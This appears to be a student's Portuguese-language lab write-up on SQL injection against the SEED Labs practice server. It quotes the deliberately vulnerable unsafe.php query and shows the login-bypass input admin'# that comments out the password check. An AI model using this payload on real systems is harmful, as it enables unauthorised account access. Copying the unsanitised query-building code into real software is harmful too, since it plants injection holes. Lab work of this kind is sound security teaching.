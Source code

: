 Primeiramente, vamos aceder ao http://www.seed-server.com/ e reparamos que existem 2 input boxes que correspondem ao username e password.
Depois verificamos o ficheiro unsafe.php que contém o seguinte código (/Web_SQL_Injection/Labsetup/image_www/unsafe.php):
```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

// create a connection
$conn = getDB();

// do the query
$result = $conn->query("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= '$input_uname' and Password= '$hashed_pwd'");
```
Após analisar o código, chegamos à conclusão de que é facilmente usado o sql injection pois o código cria o comando usando strings que serão inputs do utilizador (sem sanitização e sem prepared statments).
Podemos escrever no lugar do input username o seguinte input `admin'#`na qual o código ficaria do seguinte formato:
```sql
SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= 'admin'# and Password= ''
```
E obtivemos acesso:

![admin](Images/admin.png)
